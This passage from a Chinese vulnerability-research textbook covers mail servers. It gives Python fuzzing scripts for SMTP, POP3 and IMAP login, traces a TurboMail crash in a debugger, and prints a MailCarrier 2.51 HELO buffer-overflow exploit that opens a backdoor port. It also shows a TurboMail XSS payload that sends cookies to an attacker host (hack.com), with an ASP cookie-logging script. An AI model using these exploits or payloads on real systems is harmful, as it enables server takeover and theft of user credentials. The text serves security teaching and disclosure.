现在有一个问题，我们知道邮件发送接收中的协议都是由邮件客户端软件封装起来的，用户根本不能去随意修改命令中的数据。虽然，邮件客户端软件也是将用户输入的数据信息来组合到命令当中，但是，邮件客户端软件会对用户输入数据的长度或者格式做很多限制。如图7.6所示。

如果我们想要测试某个邮件服务程序是不是存在缓冲区溢出漏洞，我们发现在邮件客户端软件中输入过长的发送目的地址时，邮件客户端软件会提示已经无法再输入过长数据或者干脆报警说“你输入的目的地址过长”，这样一来，我们根本无法去测试邮件服务程序是不是存在缓冲区溢出漏洞，因为我们需要向邮件服务程序发送超长的数据，才可能触发到程序内部的缓冲区溢出漏洞。

难道说，为了挖掘邮件服务程序的缓冲区溢出漏洞，我们还需要自己用Delphi语言或者Visual C++编写一个邮件客户端软件不就？你一定会感到，这个工作量有些太大了吧。能不能找到一个简单的方法来实现测试的目的，时间就是生命啊。

还记得我们在本书第2章中介绍的Python语言吗？它可以帮助我们快速建立起一个测试专用的邮件客户端。

现在，我们需要结合邮件服务程序的漏洞测试来看一看，在缓冲区溢出漏洞挖掘过程中，我们应该如何使用Python。

对于SMTP协议来说，我们最主要的测试环节是用户登录认证过程中的几条命令。在Python中，这个认证过程被封装成一个登录函数`login`。

`login`函数有两个参数，第一个是登录用户名，第二个是登录密码。很多情况下，邮件服务程序在处理这两个参数时往往过于相信用户提交的数据不会超长（因为一般的邮件客户端软件不允许用户输入过长的登录用户名或者登录密码），而造成典型的缓冲区溢出漏洞发生。为此，我们可以编写一段Python脚本来进行溢出漏洞探测。

```python
from smtplib import SMTP as smtp  # 引入Python自带的SMTP库

HOST = '127.0.0.1'            # 设置邮件服务程序所在IP地址，这里设置为本机地址
username = 'test@local.com'   # 登录邮件服务程序的用户名
pwd = '123456'                # 登录用户的密码

def main():                   # 定义主函数
    try:
        s = smtp(HOST)        # 开始连接邮件服务程序
    except:
        print('connect Host "%s" error' % HOST)  # 出错则给出提示
        return

    print('*** connected to SMTP HOST="%s" ***' % HOST)

    try:
        s.login(username, pwd)  # 利用login函数开始登录邮件服务程序
    except:
        print('username or password is error')
        return

    print('*** login successed ***')  # 登录成功给出提示
    return

if __name__ == '__main__':
    main()  # 调用主函数，即开始登录邮件服务程序
```

在上面这段Python脚本中，我们首先调用了Python内部整合好的SMTP库文件smtplib，接下来，我们创建了三个变量HOST（用来指定被测试邮件服务程序所在的服务器IP地址）、username（登录邮件服务程序SMTP协议的用户名）、pwd（登录密码）。

“def main()”开始到“if __name__ == '__main__':”中间这段代码定义了一个函数，函数名为main，即主函数的意思。其中，我们做了两件事情，第一件事情是我们使用代码“s = smtp(HOST)”来建立与远程邮件服务程序的连接。默认情况下，邮件服务程序中SMTP协议工作的端口号码都为25号端口。在Python中，smtp(HOST)这句代码将会自动完成与远程HOST指定的服务器25号端口进行连接。第二件事情，一旦连接成功，smtp(HOST)这句代码会产生一个对象s，这个对象中的login函数就是SMTP认证过程的一个封装函数，我们只需要向这个函数传递用户名与登录密码，该函数就会自动完成SMTP认证中各个命令的发送。

最后，用代码 `main()` 调用主函数执行。保存这段代码为 `smtptest.py`，让我们看看在命令行下调用执行的效果，如图 7.7 所示。


短短几行代码，我们就模拟邮件客户端软件，完成了一次邮件发送过程中的认证环节。脚本语言的魅力凸显出来了。而最重要的是接下来我们要做的事情。

由于我们想要测试邮件服务程序在处理 SMTP 认证过程中有没有存在溢出漏洞，此刻，我们能够修改的用户数据就是登录用户名与登录密码。对应上面代码中的变量就是 `username` 和 `pwd`。如果我们想要测试邮件服务程序在处理 SMTP 用户名长度上有没有存在溢出漏洞，我们就可以直接修改代码成为下面这个样子。

```python
from smtplib import SMTP as smtp

HOST = "127.0.0.1"
username = "A" * 3000
pwd = "123456"
# （以下代码同上面演示代码，故此处省略）
```

此刻，我们将 `username` 变量的值指定为 `"A"*3000`，即 3000 个大写字母 A。再次保存这段代码为 `smtptest.py`。然后，在命令行下执行这段代码，一旦邮件服务程序在 SMTP 认证过程中对用户名长度没有加以限制，命令行下 `smtptest.py` 运行就会出现错误，而不是显示“login successed”，这就代表被测试邮件服务程序很可能存在一个缓冲区溢出漏洞。

与 SMTP 协议不同，用来接收电子邮件的 POP3 协议一般都是需要进行登录认证的。不然，任何人都可以查看你的电子邮件，那岂不是没有任何隐私可言。于是，我们针对 POP3 协议同样可以进行对用户名和登录密码数据的缓冲区溢出测试。

```python
import poplib  # 引入Python自带的POP3库
M = poplib.POP3("127.0.0.1")  # 使用POP3协议连接邮件服务程序
M.user("test@local.com")      # 发送登录用户名
M.pass_("123456")             # 发送登录密码
```

上面这四句 Python 代码就完成了 POP3 协议的认证过程。其中，`poplib` 是 Python 内部提供的支持 POP3 协议的库；`poplib.POP3(IP)` 用来连接指定 IP 地址的邮件服务程序 110 端口，POP3 协议默认工作端口是 110 端口；`M.user(..)` 设定用来登录的用户名；`M.pass_(..)` 设定对应用户名的登录密码。在设定用户名和密码的过程中，Python 将按照 POP3 协议格式发送用户名和密码数据到远程邮件服务程序，一旦认证成功，程序自动结束；不成功则会出现错误提示，如图 7.8 所示。


为此，在测试缓冲区溢出漏洞过程中，我们可以建立一个测试变量，给这个变量赋予过长的数据；然后，用其充当用户名或者密码，来发送给邮件服务程序，检测其在处理 POP3 协议认证过程中是否存在溢出漏洞。

从本章 7.2.3 小节中我们学到，IMAP4 协议其实与 POP3 协议一样，都是用来从远程邮件服务程序上接收邮件的专用协议，只不过 IMAP4 协议支持对邮件服务器上邮件的远程操作，如删除邮件或者移动邮件。为此，IMAP4 协议也必须采用认证模式，一个用户对应一个登录账号，用户只能操作属于自己的邮件信息。

认证模式的 IMAP4 协议与 POP3 协议一样，都是向远程邮件服务程序发送固定的认证命令。在此过程中，用户提交的登录用户名与登录密码又一次成为我们用来测试邮件服务程序缓冲区溢出漏洞的主要参数。

```python
import imaplib  # 引入Python自带的IMAP库

M = imaplib.IMAP4("127.0.0.1")  # 利用IMAP4协议登录邮件服务程序

try:
    M.login("test", "123456")  # 发送登录用户名和密码
except M.error, e:
    print "login error"  # 登录出错给出错误提示
M.logout()  # 退出登录
```


以上代码利用 Python 提供的 `imaplib` 库来实现 IMAP4 协议认证过程。在命令行下的调用效果如图 7.9 所示。

我们可以修改上面的代码，为其创建过长的登录用户名或者密码，然后发送给被测试邮件服务程序看是否发生缓冲区溢出漏洞。代码修改方式请参考本节最前面 SMTP 协议认证测试过程。

#### 7.3.2 TurboMail 4.3 POP3 远程拒绝服务漏洞的挖掘

TurboMail 是国内非常著名的一款邮件服务程序，这个程序有多个版本，能够分别适用于 Windows 平台和 Linux 平台。其通用性和良好的用户体验使得该邮件服务程序在国内多个大型企事业单位使用。2010 年 2 月，我向 TurboMail 的开发公司广州拓波软件科技有限公司提交了一份安全报告，报告中指出 TurboMail 的 4.3.0 版本在处理 POP3 协议过程中存在多个安全漏洞。该公司在接到此报告后，其技术经理很快联系到我，确认了漏洞存在并及时修复了报告中的安全漏洞。这里，带领大家重新回顾一下 POP3 协议漏洞的挖掘过程。

在虚拟机 Windows XP 系统中正确安装好 TurboMail 的 4.3.0 for Windows 版本。设置 OllyICE 程序为实时调试器，具体方法参考本书第 6 章的 6.2.2 小节内容。同时，配置虚拟机的 IP 地址为 192.168.1.2，本地计算机的 IP 地址为 192.168.1.1。

> 小提示：安装 TurboMail 4.3.0 for Windows 版本时，在安装快结束时，TurboMail 安装程序会提示重新启动计算机，读者一定要重启计算机，不然，TurboMail 程序将无法正常运行。

从程序菜单栏中找到“TurboMail”选项，打开其子菜单中的“邮件服务控制台”，如图 7.10 所示。

依次点击“运行 Mail 服务器”和“运行 WebMail 服务器”按钮，使这两个按钮变为“停止 Mail 服务器”和“停止 WebMail 服务器”状态。


> 小贴士：注意，在使用 TurboMail 程序的时候，不要在操作系统中安装 IIS 程序。如果安装了 IIS 程序，请首先停止 IIS 服务。并且，不要在操作系统中安装瑞星之类的杀毒软件，因为其邮件监视功能会干扰 TurboMail 的正常运行。

我们首先需要正确启动好 TurboMail。在虚拟机系统中打开浏览器，在其中输入 `http://127.0.0.1:8080` 回车访问，出现 TurboMail 的 WebMail 界面，如图 7.11 所示。


图 7.11 TurboMail 的 WebMail 界面

直接点击“管理员入口”后，再点击“登录”按钮，进入管理配置界面，如图 7.12 所示。在配置管理界面中，我们需要新建一个邮件域，假设这里我们新建一个邮件域名为“local.com”，在“用户注册”面板中，按照图 7.13 所示配置，以便启动该邮件服务域，如图 7.13 所示。

回到真实的操作系统当中，新建一个记事本程序，在其中键入我们的测试代码。代码如下：

```python
import poplib  # 引入Python自带的POP3库
M = poplib.POP3('192.168.1.2')  # 使用POP3协议连接邮件服务程序
ar = 'A' * 260  # 创建一个由260个字母A组成的字符串变量ar
M.user(ar)  # 将ar当做登录用户名发送给邮件服务程序
M.pass_('123456')  # 发送登录密码
```


保存该测试代码为 `pop3test.py`。这段测试代码中，`ar` 为一个 260 字节长度的变量，我们将它作为 POP3 用户名即邮箱账户，发送给虚拟机中的 TurboMail。打开 Windows 系统中的命令行，切换到 `pop3test.py` 所在文件目录下，输入“pop3test.py”后回车。此刻，你发现光标会一直闪烁，没有任何显示结果，如图 7.14 所示。


图 7.12 TurboMail 的管理配置界面


图 7.13 启动新建立的邮件服务


图 7.15 OllyICE 监视到 TurboMail 进程发生了错误

现在，让我们回到虚拟机当中，我们发现 OllyICE 进程被自动运行起来了，OllyICE 监视到系统中发生了运行错误，如图 7.15 所示。


图 7.16 `pop3test.py` 程序有了显示

图 7.17 打开 OllyICE 的执行模块窗口

图 7.15 中我们看到，OllyICE 进程监视到 `TurboMail.exe` 这个进程发生错误后，被系统自动结束运行了。

关闭 OllyICE，你会发现真实的本地系统中的 `pop3test.py` 程序不再闪烁光标，而是出现了报错，如图 7.16 所示。

同时，在虚拟机当中的 TurboMail 的邮件服务控制台中显示，Mail 服务状态处于停止，这意味着 TurboMail 已经不能正常进行邮件服务了。


图 7.18 选择“Name {label in current module}”选项

毫无疑问，虚拟机中 `TurboMail.exe` 进程发生自动结束的现象是由 `pop3test.py` 造成。问题的核心就在于我们将一个 260 字节长度的变量 `ar` 当做 POP3 用户名发送给了 TurboMail。但是，OllyICE 没有监视到程序发生自动关闭的原因，而只是监视到 `TurboMail.exe` 进程发生了自动关闭。所以，我们要想弄清楚 `ar` 变量究竟是怎样造成 `TurboMail.exe` 进程发生自动关闭。

在虚拟机中，点击 TurboMail 的邮件服务控制台中“运行 Mail 服务器”，使得 TurboMail 再次正常工作起来。运行 OllyICE，利用其附加功能，将 OllyICE 附加到 TurboMail 这个进程上。按下键盘上的 Alt+E 组合键，打开执行模块窗口（Executable Modules），如图 7.17 所示。


图 7.19 在“WSARecv”函数上断点

在其中找到 `WS2_32.dll`，双击打开该模块。在指令窗口处进行鼠标右击，在出现的菜单中找到“Search for（查找）”，打开其子菜单，如图 7.18 所示。

在子菜单中选择第一个选项（或者直接按下键盘上的 Ctrl+N 组合键），出现一个新的窗口，如图 7.19 所示。

在图 7.19 的窗口中找到“WSARecv”这个字符，在其左侧的“Address（地址）”一栏处按下鼠标左键，同时按下键盘上的 F2 功能键，目的是在该函数上下一个断点。

由于 `pop3test.py` 向 TurboMail 程序发送过长 POP3 用户名后导致程序崩溃自动关闭，所以我们可以在 TurboMail 程序接收来自 `pop3test.py` 的数据时下一个断点，用来一步一步跟踪程序处理这些数据的过程，最终找到发生崩溃的原因。而 TurboMail 用来接收外部数据的函数就是 `WSARecv` 函数，所以我们要在该函数上设置一个断点，一旦 TurboMail 程序调用该函数，我们就能及时中断程序，分析程序中的工作情况。

断点下好后，按下 F9 功能键，让 `TurboMail.exe` 进程正常运行起来。

现在，在真实的操作系统的命令行下，我们再次执行 `pop3test.py` 程序。马上，虚拟机中 OllyICE 发生了中断，如图 7.20 所示。

此刻是第一次中断，按下 Ctrl+F9 组合键，OllyICE 将自动执行到 `WSARecv` 函数返回。这样做的目的，是为了弄清楚 TurboMail 程序此刻调用 `WSARecv` 函数接收了什么数据，如图 7.21 所示。

此刻，我们可以清晰地看到，OllyICE 右下角的堆栈窗口中显示“USER AAA... ”这样的字符，这意味着 TurboMail 程序接收到了来自 `pop3test.py` 程序发送的 POP3 用户名。

按下 F9 功能键让 TurboMail 程序继续运行，马上 OllyICE 再次中断。按下 Ctrl+F9 组合键，我们发现这一次 TurboMail 程序接收到了来自 `pop3test.py` 程序发送的 POP3 用户对应的密码，如图 7.22 所示。

此时，`pop3test.py` 发送的数据已经全部被 TurboMail 程序接收，我们需要使用 F7 功能键和 F8 功能键一步一步跟踪这些数据是怎样被 TurboMail 程序进行处理的。


图 7.20 第一次发生了中断


图 7.21 让 TurboMail 程序执行到 `WSARecv` 函数调用返回


图 7.22 TurboMail 程序接收到了用户密码

> 小知识：OllyICE 程序中的 F7 功能键是用来跟踪单条指令的执行过程，F8 功能键的作用是逐过程（步过）执行。与 F7 功能键作用相差不多，但是在遇到调用某个函数的指令时，F8 功能键会自动执行完函数，而 F7 功能键则会进入到函数中，逐条指令跟踪执行。

在接收完全部数据后，TurboMail 程序会来到一个用来进行 POP3 用户认证的关键函数当中，如图 7.23 所示。

正是在进入这个函数后，TurboMail 程序发生了严重的错误。继续使用 F7 功能键和 F8 功能键调试，这个调试过程中，我们需要时刻注意堆栈窗口的变化，如图 7.24 所示。


在跟踪到地址为 `0042DDED` 时，堆栈中出现了一个新的字符串“local.com”。这不是先前设置的邮件域名吗？TurboMail 程序将邮件域名拿出来想要做什么呢？让我们继续调试看看。

一直跟踪到图 7.25 这里，我们终于明白了 TurboMail 程序使用邮件域名的原因。原来，TurboMail 程序将邮件域名与 `pop3test.py` 发送给它的 POP3 用户名组合为一个完整的文件路径。


在 OllyICE 的内存数据窗口，按下组合键 Ctrl+G，出现需要输入待查看内存地址的对话框，如图 7.26 所示。

在其中输入 `eax`，按下回车键，我们查看一下 `eax` 寄存器指向的完整文件路径究竟是什么，如图 7.27 所示。

图 7.27 中我们看到，`eax` 寄存器指向的完整路径指向了一个 `account.xml` 文件。这个文件是做什么用的……


图 7.28 TurboMail 程序用邮件域名做文件名

图 7.29 TurboMail 程序使用用户名作为用户文件名

的呢？让我们打开 TurboMail 程序安装目录下的 `accounts` 文件目录看一下，如图 7.28 所示。TurboMail 程序在管理邮件域名的时候，采用的是以邮件域名作为文件目录、建立对应文件目录的方式来管理邮件域名。

每一个邮件域名对应本地磁盘上的一个文件目录。而每个邮件域名下的用户就会相应建立一个文件目录在邮件域名所在的文件目录下，如图 7.29 所示。用户名文件目录中保存了用户所有的数据信息，包括电子邮件、账户信息等。其中账户信息就保存在 `account.xml` 文件中，我们可以打开一个用户的 `account.xml` 文件看一看其中的内容。

```xml
<?xml encoding="UTF-8"?>
<user modifytime="1269951304531">
  <general>
    <username>test</username>
    <password>MTIzNDU2</password>
    <usertype>0</usertype>
  </general>
  <services>
    <enable>true</enable>
    <enable_smtp>true</enable_smtp>
    <enable_pop3>true</enable_pop3>
    <enable_imap4>true</enable_imap4>
    <enable_webaccess>true</enable_webaccess>
    <enable_localdomain>false</enable_localdomain>
    <enable_sms>false</enable_sms>
  </services>
  <mailbox>
    <max_mailbox_size>-1</max_mailbox_size>
    <max_mailbox_msgs>-1</max_mailbox_msgs>
  </mailbox>
</user>
```

其中最为关键的地方是 `<password>MTIzNDU2</password>`。TurboMail 程序采用加密算法将用户的密码信息加密后保存在 `account.xml` 文件当中。

结合上面这段分析，前面 TurboMail 程序在接收到 `pop3test.py` 发送给它的用户名和密码后，程序利用该用户名组合邮件域名所在文件目录名称，试图想要打开该用户名对应文件目录下的 `account.xml` 文件，取出其中加密后的密码，用来与 `pop3test.py` 发送给它的密码加密后进行比较，从而完成用户身份认证。然而在这个时候，由于 `pop3test.py` 发送给 TurboMail 程序的用户名过长，TurboMail 程序组合后的文件目录名长度早已大于 Windows 系统限制的 260 个字节长度，程序在打开这样一个非法的文件路径名时就发生了严重错误，导致程序最终自动崩溃。

虽然上面这个案例最终被发现的漏洞原因不属于缓冲区溢出造成的，但是，正是由于 TurboMail 程序在接收用户名这个变量时，没有正确检查用户名的长度，直接将其作为文件……目录名的一部分传递给后面的认证函数，造成程序崩溃，无法正常提供邮件服务。单从这一点上来看，该漏洞的成因与缓冲区溢出漏洞是一致的。

除了上面说的利用 Python 语言封装好的函数来挖掘邮件服务程序的安全漏洞，我们还可以通过 Python 代码发送邮件协议命令的方式来挖掘邮件服务程序的安全漏洞。这种方式的好处是可以针对邮件协议的每一条命令单独进行安全测试。

下面，我们要与大家学习的正好就是一个利用发送邮件协议命令方式来挖掘邮件服务程序的安全漏洞的案例。

#### 7.3.3 MailCarrier 2.51 SMTP HELO 命令溢出漏洞的挖掘

MailCarrier 程序是由 TABS Laboratories Corporation 公司开发的一款简单易用的邮件服务程序，该程序的 2.51 版本曾于 2004 年被曝光存在一个严重的缓冲区溢出漏洞。远程攻击者可以借助该漏洞，向 MailCarrier 程序的 25 号端口发送包含有攻击代码的数据包，从而获得控制 MailCarrier 程序所在服务器本身的权限。现在，我们可以借助 Python 脚本来实现对该漏洞的再现。

首先，在虚拟机中安装 MailCarrier 程序的 2.51 版本。安装完毕后，MailCarrier 程序会自动运行，但是此刻我们还不能正常使用 MailCarrier 程序。我们首先需要新建一个邮件服务，鼠标单击 MailCarrier 程序的“Action”菜单，在弹出的菜单中选择“New Mail Server”，如图 7.30 所示。


图 7.30 选择“New Mail Server”选项

此时，MailCarrier 程序会要求输入新建邮件服务的名称，我们可以输入“test”，然后程序要求选择邮件服务所在的 IP 地址，直接点击“完成”按钮。MailCarrier 程序的下方会显示出三行状态信息，这代表着 MailCarrier 程序已经开始正常工作了，如图 7.31 所示。

接着，我们开启 OllyICE 程序，点击“文件”菜单中的“附加”选项，出现一个新的对话框，如图 7.32 所示。


图 7.31 MailCarrier 程序正常工作截图

图 7.32 中的这个对话框是一个附加进程对话框，其作用是选择 OllyICE 程序将要监视的进程。这样一来，被监视进程的所有指令运行都可以被 OllyICE 程序监视到，包括程序发生错误时的状态。

在图 7.32 的对话框中通过右侧的下拉条找到一个名叫“smtpr”的进程后，这个进程就是 MailCarrier 程序负责接收 SMTP 协议命令的进程。点击“附加”按钮，OllyICE 程序将进入监视状态。此时，记得按下键盘上的 F9 功能键，因为 OllyICE 程序初次进入监听状态时会暂停被监视进程的运行，F9 功能键会让被监视进程再次运行起来。


图 7.32 打开 OllyICE 的“Attach”对话框

现在，回到我们真实的操作系统当中，新建一个记事本文件，在其中键入以下代码：

```python
import struct
import socket  # 以上两句引入本次代码所需要使用的两个 Python 库

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 创建一个端口对象
buffer = 'A' * 5100  # 建立一个由 5100 个字母 A 组成的变量

try:
    s.connect(('192.168.1.2', 25))  # 利用端口对象建立与被测试邮件服务程序 25 号端口的连接
    s.send('HELO' + buffer + '\r\n')  # 将 HELO 命令与 buffer 变量组合起来发送给被测邮件服务程序
    data = s.recv(1024)  # 接收邮件服务程序的反馈数据
    s.close()  # 发送完毕后关闭端口对象
except:
    print "Could not connect to SMTP!"  # 如果连接邮件服务程序不成功给出错误提示
```

这里，我们使用 HELO 命令，结合一个 5100 字节长度的 buffer 变量一起发送给 MailCarrier 程序的 25 号端口。保存该测试代码为 smtptest.py 文件，在 Windows 系统自带的命令行窗口中切换到 smtptest.py 文件所在目录下，键入“smtptest.py”后回车，测试代码将会被立即执行。此刻，让我们看一看虚拟机中 MailCarrier 程序的反应。如图 7.33 所示。


图 7.33 MailCarrier 程序发生了溢出错误

我们的 OllyICE 监视 smtpr 进程发生了一个严重的错误，smtpr 进程此刻试图执行内存地址为 41414141 处的指令，而这个 41 正好对应的就是我们测试代码中字母 A 的十六进制编码。也就是说，我们发送的 buffer 变量导致 MailCarrier 程序 SMTP 协议服务进程发生缓冲区溢出，覆盖了某个函数的返回地址。为此，我们可以利用传统缓冲区溢出利用的方法，将这个返回地址覆盖为一个跳转地址，结合 ShellCode 代码，利用前面的 Python 脚本发送给 MailCarrier 程序，从而完成一次成功的缓冲区溢出漏洞攻击。

下面给出的就是一个完整的该漏洞攻击代码。该代码成功溢出 MailCarrier 程序后，将会开启服务器上 101 号端口作为后门，攻击者可以直接远程连接该端口实现对服务器的远程控制。

```python
import struct
import socket  # 以上两句引入本次代码所需要使用的两个 Python 库

print "\nMailCarrier 2.51 SMTP EHLO / HELO Buffer Overflow"
def make_overflow_dummy(overflow_len, retaddr):
    return 'A' * overflow_len + struct.pack('<L', retaddr)  # 建立溢出触发数据包

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # 创建一个端口对象
```

```c
sc2 = "\xEB...";
sc2 += "\x0F\x58\x80\x30...";
...
sc2 += "\x58\x68\x61\x63\x6B\x90";  // 以上为一个开启101号端口的ShellCode

buffer = make_overflow_dummy(5093, 0x7c2ee21b) + "\x90" * 32 + sc2
// 利用 make_overflow_dummy 构造溢出字符串，用返回地址覆盖并在溢出后执行 ShellCode
```

```python
try:
    print "\nSending evil buffer..."
    s.connect(('192.168.1.2', 25))      # 建立与被测邮件服务器连接
    s.send('HELO' + buffer + '\r\n')    # 发送构造数据
    data = s.recv(1024)                 # 接收返回
    s.close()                           # 关闭连接
    print "\nDone! Try connecting to port 101 on victim machine."
except:
    print "Could not connect to SMTP!"  # 连接失败提示
```

保存上面的代码为 **attack.py**，在命令行执行后出现“Done! Try connecting to port 101 on victim machine.”提示；随后新开命令行输入 `telnet 192.168.1.2 101`，即可获得远程服务器控制权限，如图 7.34 所示。

### 7.4 Web Mail 中的特殊漏洞


图 7.34 成功溢出后的效果截图

前面我们探讨了传统漏洞的挖掘方法。之所以称为“传统漏洞”，一方面因为测试方式多为向协议服务端口发送数据进行安全测试；另一方面，目标通常是发现被测邮件服务程序中的缓冲区溢出或格式化漏洞。这两类漏洞都是应用程序中常见的安全问题。

这些漏洞的危害小则可以造成拒绝服务攻击，大则可以向远程服务器上安装木马病毒程序，直接控制远程服务器，所以大多数时候，我们常常以挖掘这些漏洞来作为安全测试的主要任务。

但是，对于邮件服务程序来说，由于它提供的功能不单单限制于应用程序本身的网络数据处理任务，它还有结合 Web 应用程序的一面。Web 应用程序由于其独特的运行模式，它会出现不同于应用程序的安全漏洞，所以，我们在面对一个邮件服务程序时，尤其是带有 Web Mail 功能的邮件服务程序时，就不能将思维仅仅限于应用程序漏洞的挖掘，还需要挖掘其 Web Mail 中存在的安全漏洞。这些安全漏洞的危害有时甚至远远大于一个缓冲区溢出漏洞所带来的危害。下面，我们就将详细介绍如何挖掘 Web Mail 中潜在的安全漏洞。

#### 7.4.1 经典的跨站漏洞

跨站漏洞（Cross-site scripting，也被称作 XSS）是指恶意攻击者向 Web 程序页面里插入恶意脚本代码，当处于客户端的用户通过浏览器访问该网页时，嵌入在正常 Web 页面中的恶意代码会被执行，从而达到攻击用户、获取用户信息，甚至获取网站权限的特殊目的的安全漏洞。

为什么要讲跨站漏洞？是因为跨站漏洞是 Web 应用程序中的最为常见的安全漏洞，而我们这章所讲的 Web Mail 正好就属于 Web 应用程序。


图 7.35 跨站漏洞攻击演示

大体上讲，利用跨站漏洞实施恶意攻击的方式属于被动式的攻击，因为它常常是将恶意代码嵌入正常网页后，等待用户访问这个网页从而触发漏洞被利用。

跨站攻击之所以能够发生的原因就是利用了 Web 应用程序中属于客户端一面的特性。原本 Web 应用程序用来进行返回给客户端内容的代码被恶意利用，就会造成 Web 程序间接地攻击处在客户端的用户，“跨站”的意思正好就来自于此。

我们这里举一个最为简单的例子。在 JavaScript 语言中，alert 函数是一个可以弹出指定内容的对话框操作函数。只要我们在网页代码中加入一个 `<script>` 标签，然后引入 alert 函数，就会令所有访问这个网页的用户浏览器弹出一个对话框。这里为了更加直观，我们可以直接测试浏览器本身对 JavaScript 语句的解析，我们在浏览器地址栏中键入“javascript:alert('xss');”（不包括双引号），回车，会出现图 7.35 中的样子。

我们清楚地看到浏览器弹出了一个带有“XSS”标记的对话框。如果我们这里放入的代码不是简单的一个用于产生对话框的代码，而是一段恶意的死循环代码，那么你的浏览器在访问这个网页时就会因为忙不过来而死机了。

挖掘跨站漏洞最基本的步骤就是将跨站漏洞测试语句“`<script>alert()</script>`”插入到 Web 程序页面中，再利用浏览器访问该网页，看浏览器会不会弹出对话框。如果弹出了类似图 7.35 的对话框，那就证明该 Web 程序存在跨站漏洞。

下面，我们将结合具体实际案例，来看一看如何针对 Web Mail 程序挖掘跨站漏洞。

#### 7.4.2 TurboMail 4.3 邮件系统 XSS 0day 漏洞

通常，针对一个 Web 程序，我们往往采用的是将其外部参数赋值为 XSS 测试语句的方法来检测该 Web 程序是否存在跨站漏洞。TurboMail 邮件系统提供了 Web Email 服务，也就是说，我们可以通过浏览器访问 TurboMail 邮件系统，从而来进行邮件的收发工作。这就相当于一个 Web 应用程序，从某种意义上来说，TurboMail 邮件系统的 Web Email 服务与我们平时见到的论坛程序、博客程序等是一样的。这就意味着，我们可以采用将其外部参数赋值为 XSS 测试语句的方法来检查该邮件系统是否存在跨站漏洞。


图 7.36 TurboMail 邮件系统登录界面

那么我们如何知道哪些参数是 TurboMail 邮件系统的外部参数呢？让我们登录 TurboMail 邮件系统来看一看，如图 7.36 所示。对于一个邮件系统来说，其能够为用户使用的功能很多，最为典型的就是用户可以创建一封邮件。图 7.36 中我们看到，TurboMail 邮件系统的写邮件功能为我们提供了很多可以输入测试语句的地方，如收件人、抄送、密送、主题、邮件内容。


图 7.37 主题设置为跨站语句的测试邮件

但是，请大家注意，并不是说这里所有的地方我们都可以放入跨站测试语句。因为 XSS 测试语句从参数类型上来说，它属于一个字符串类型。如果被测试程序提供了一个供用户输入的地方，但是这个地方写着是放数字型参数的地方，如发送次数。这个时候，请大家就不要再拿跨站测试语句输入了。这是一个基本的区分，当然具体测试情况还需要针对被测试程序来进行调整。


图 7.38 当邮件的主题为跨站测试语句时浏览器会弹出一个对话框

既然 TurboMail 邮件系统的发邮件功能提供了很多我们可以测试的地方，那么我们就可以依次进行跨站漏洞挖掘测试了。最终，我们创建一封“主题”为跨站测试语句的邮件，如图 7.37 所示。TurboMail 邮件系统在接收到该邮件时发生了跨站漏洞，如图 7.38 所示。

看起来非常简单，我们这里只是简单地演示了一个“`<script>alert()</script>`”的跨站测试语句。

当 TurboMail 邮件系统的使用者在通过 Web 形式登录该邮件系统时，如果他选择了记住用户名和记住密码的登录选项，如图 7.39 所示。


通过这个邮件系统的 XSS 漏洞，我们可以制造一封带有恶意攻击性质的 Email 发送给受害者。受害者一旦通过 TurboMail 邮件系统的 Web 形式接收到该邮件，无论他是不是打开该恶意电子邮件，他的登录个人信息都会被我们截获。

方法很简单，就是在建立一封新的电子邮件时，我们在邮件的“主题”部分输入代码“`<script>window.open("http://hack.com/getcookie.asp?cookies="+document.cookie)</script>`”。

解释一下这段跨站代码：它是利用 JavaScript 代码打开一个新的浏览器窗口，同时将当前浏览器的 Cookie 信息发送到新打开的“hack.com”网址上去（hack.com 是攻击者所控制的一个网址）。而“hack.com”网址上的 getcookie.asp 文件就是一个记录发送给它的 Cookie 信息的 ASP 文件。它的代码如下：

```asp
<%
set cookie=request("cookies")  ' 获取发送过来的用户 Cookie 信息
if cookie<>"" then             ' 判断获取的 Cookie 信息是不是为空
    set fp=server.mappath("/cookies.txt")
    set fso=server.createobject("scripting.filesystemobject")
    set fin=fso.opentextfile(fp,true)   ' 以写入方式打开服务器上的 cookies.txt 文件
    fin.writeline cookie                 ' 将用户的 Cookie 信息写入 cookies.txt 文件中
    fin.close
end if
%>
```

现在，发送带有上述跨站代码的电子邮件给用户。当用户使用浏览器登录自己的信箱，打开邮件后，该用户的 Cookies 信息就被偷偷发送到了远程攻击者的网址上，从而被恶意攻击者记录下来，其攻击效果如图 7.40 所示。


图 7.40 右侧的记事本文件就是记录用户 Cookies 信息的 cookies.txt 文件，其中记录了一个名为“test”用户的登录信息，可以看到其密码以及邮件域信息全部包含其中。

同时，我们注意到此时图 7.40 中左侧显示的电子邮件的“主题”部分没有显示任何内容，这就更增加了恶意攻击者利用跨站漏洞实施攻击的隐蔽性。当然，你也可以伪造性地显示一些内容以迷惑受害者。

说完了漏洞的挖掘过程，让我们进而学习一下，是什么原因造成了 TurboMail 出现如此严重的跨站漏洞。

其实最关键的问题还是由于开发者的粗心。TurboMail 邮件系统的开发者其实注意到了对恶意脚本的防范，但是在他们编写 JSP 脚本的时候，还是没能够将安全编程的意识进行到底。

出现问题的文件是 `msglist.jsp` 文件，这个文件位于 TurboMail 系统的安装目录下的 `web\webapps\ROOT\enterprise` 文件夹中。我们来看看问题代码：

```jsp
<% if(mtype.equals("draft")){ %>
<a href="javascript:composedraft('<%=tempIndexItem.m_sMailFileName %>','1','<%=tabName%>')" title="<%=orgSubject%>">
<% } else { %>
<a href="javascript:viewmsg('<%=tempIndexItem.m_sMailFileName %>','1','<%=Util.getStr4Bool(c_bOnlyNew)%>','<%=tabName%>')" title="<%=orgSubject%>">
<% } %>
<nobr>
<% if(tempIndexItem.m_iMailFlag == 1){ %>
    <%=strTempx%>
<% } else { %>
<b id="b_<%=tempIndexItem.m_sMailFileName %>"><%=strTempx%></b>//注意TurboMail系统在这里打印出邮件的主题部分
<% } %>
</nobr>
</a>
</td>
```

从代码中我们看到 `strTempx` 这个参数代表了用户接收到的邮件主题部分，于是，我们在 `msglist.jsp` 文件中向上寻找 `strTempx` 这个参数。

```jsp
<%
strTempx = "";
orgSubject = "";
...
strTempx = tempIndexItem.m_sSubject;
if(!strTempx.equals("")){
    orgSubject = Util.htmlspecialchars_equot(strTempx,false,true);
    tabName = Util.fixShowLength(orgSubject,6);
    //strTempx = Util.htmlspecialchars(strTempx,false,true)
}
%>
```

